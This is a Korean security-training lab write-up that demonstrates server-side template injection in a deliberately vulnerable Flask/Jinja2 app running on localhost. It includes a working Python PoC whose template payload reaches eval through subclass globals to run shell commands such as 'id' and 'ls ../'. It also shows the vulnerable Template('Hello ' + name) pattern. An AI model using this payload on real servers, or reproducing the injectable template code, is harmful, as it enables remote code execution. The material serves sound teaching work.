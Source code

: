 # Flask (Jinja2) SSTI (Server Side Template Injection)

> 화이트햇 스쿨 3기 - [박혜수 (@Pandyo)](https://github.com/Padnyo)]

<br/>

## 실습 환경 구성

1. docker과 docker-compose, python 등 실습에 필요한 프로그램 설치
2. `git clone`를 통해 실습 코드 clone
3. 선택한 취약점인 Flask 디렉토리의 docker-compose.yml 파일이 위치하는 곳으로 이동
4. `docker-compose up -d`를 통해 실습 환경 실행
5. `docker ps`를 통해 이미지 실행을 확인 후 해당 port 번호로 localhost 접속

<br/>

## 취약점 실습 진행

1. name의 파라미터 값으로 지정된 값을 화면에 그대로 출력시키는 것을 확인

![name의 파라미터 값으로 지정된 값을 화면에 그대로 출력시키는 것을 확인](https://github.com/user-attachments/assets/cd0c96e8-747e-4655-ae62-5dfdccf84821)

2. 파라미터 값에 템플릿 엔진에 삽입되는 템플릿 구문으로 연산 값 입력 시 7*7이 그대로 출력되는 것이 아닌 연산 결과가 출력되는 것을 통해 SSTI에 취약함을 확인

![연산 결과가 출력되는 것을 통해 SSTI에 취약함을 확인](https://github.com/user-attachments/assets/b3d643cd-869e-48c9-bf30-57368d09d685)

3. git 실습 코드에 포함된 아래의 poc.py 파일 실행
```python
from urllib import parse

# 실행할 Python 코드
script = '__import__("os").popen("id").read()'
# 서버에 전달할 템플릿 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)
print("[삽입될 템플릿 코드]")
print(value)
print()

# SSTI를 수행하는 URL
query = [("name", value)]
url = "http://localhost:8000/?"
url = url + parse.urlencode(query)  # 삽입할 코드 퍼센트 인코딩하여 쿼리값으로 설정
print("[요청 URL]")
print(url)
print() 
```
4. 실행 결과로 출력된 요청 URL을 복사하여 웹 사이트에 입력

![실행 결과로 출력된 요청 URL을 복사하여 웹 사이트에 입력](https://github.com/user-attachments/assets/4b080377-5ebb-4af2-b3e7-3be84a4b7d52)

5. 템플릿 구문으로 입력된 내용이 실행되며 서버 프로세스의 id가 출력됨

![템플릿 구문으로 입력된 내용이 실행되며 서버 프로세스의 id가 출력됨](https://github.com/user-attachments/assets/610e5e80-6ca9-4307-8eae-cbbb28d244b7)

6. PoC 코드를 조금 수정해 ls ../ 명령어가 실행되도록 하면
```python
from urllib import parse

# 실행할 Python 코드
script = '__import__("os").popen("ls ../").read()'
# 서버에 전달할 템플릿 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)
print("[삽입될 템플릿 코드]")
print(value)
print()

# SSTI를 수행하는 URL
query = [("name", value)]
url = "http://localhost:8000/?"
url = url + parse.urlencode(query)  # 삽입할 코드 퍼센트 인코딩하여 쿼리값으로 설정
print("[요청 URL]")
print(url)
print()
```
7. 명령어가 실행되며 상위 디렉토리가 나열되는 것을 확인 (다양한 명령어 실행이 가능한 것)

![명령어가 실행되며 상위 디렉토리가 나열되는 것을 확인](https://github.com/user-attachments/assets/cd77ee76-675a-41ec-9c14-91d33cf2479a)

<br/>

## 결과

- 해당 코드를 확인해보면 `Template("Hello " + name)` 부분에서 파라미터의 입력 값이 데이터로 전달되는 것이 아닌 템플릿에 연결되기 때문에 SSTI 취약점이 발생한 것 입니다.
```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello " + name)
    return t.render()

if __name__ == "__main__":
    app.run()
```
- 이 경우 공격자는 임의의 명령어를 실행할 수 있으며, 이는 RCE(Remote Code Execution)으로 이어질 수 있는 심각한 취약점 입니다.
- 사용자의 입력값을 필터링하는 등의 방법으로 대응이 가능합니다.
